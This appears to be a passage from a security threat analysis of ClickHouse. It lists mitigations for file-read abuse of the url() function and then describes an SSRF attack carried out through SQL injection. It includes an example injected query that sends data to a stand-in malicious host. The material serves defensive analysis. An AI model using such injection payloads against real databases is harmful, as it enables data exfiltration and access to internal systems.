 **Mitigation Strategies:**

*   **Robust Input Validation and Sanitization:** Implement strict input validation and sanitization for all user inputs used in SQL queries.  **Crucially, use parameterized queries or prepared statements** to prevent SQL injection entirely. This is the most fundamental and effective mitigation.
*   **Disable or Restrict `file` protocol for `url` function:**  **Highly Recommended.** If the `file` protocol for the `url` function is not absolutely necessary for legitimate application functionality, disable it in ClickHouse configuration. This can be done by modifying the `url` function settings in `config.xml` or using server settings.
*   **Principle of Least Privilege:** Run the ClickHouse server process with the minimum necessary privileges. Avoid running ClickHouse as `root` if possible. This limits the impact if an attacker gains code execution.
*   **File System Permissions:** Ensure proper file system permissions on sensitive system files to restrict read access to only necessary users and processes. However, relying solely on file system permissions is not sufficient to prevent this attack if the ClickHouse process itself has sufficient privileges.
*   **Network Segmentation:** Isolate the ClickHouse server within a secure network segment, limiting its exposure and potential attack surface.
*   **Regular Security Audits and Penetration Testing:** Conduct regular security audits and penetration testing to identify and remediate SQL injection vulnerabilities and misconfigurations.
*   **Web Application Firewall (WAF):** Deploy a WAF in front of the application to detect and block SQL injection attempts before they reach the ClickHouse server.
*   **Monitoring and Logging:** Implement comprehensive logging and monitoring of ClickHouse queries and server activity to detect suspicious usage of the `url` function and potential file access attempts.

#### 4.2. [HIGH RISK PATH] Initiate Server-Side Request Forgery (SSRF) using `url('http://malicious-external-site')` in SQL injection [HIGH RISK PATH]

**Attack Description:** Attackers exploit SQL injection to use the `url` table function with `http://` or `https://` protocols to initiate Server-Side Request Forgery (SSRF) attacks. This allows them to make requests to arbitrary external or internal servers from the ClickHouse server, potentially bypassing firewalls and accessing internal resources.

**Attack Vector:** SQL Injection vulnerability in the application's interaction with ClickHouse.

**Exploited Vulnerability:**

*   **SQL Injection:** Same as above - lack of input validation and sanitization.
*   **Unrestricted `http://` and `https://` protocols in `url` function:** Default or misconfigured ClickHouse settings that allow the `url` table function to make outbound HTTP/HTTPS requests to arbitrary URLs.

**Technical Details:**

1.  **Vulnerability Discovery:** Similar to the previous attack, the attacker identifies a SQL injection vulnerability.
2.  **Malicious SQL Injection:** The attacker crafts a malicious SQL query, injecting code that utilizes the `url` table function with `http://` or `https://` protocols, pointing to a malicious external or internal site. For example:

    ```sql
    SELECT url('http://malicious-external-site.com/exfiltrate?data=')
    FROM table
    WHERE condition = 'injected_payload';
    ```
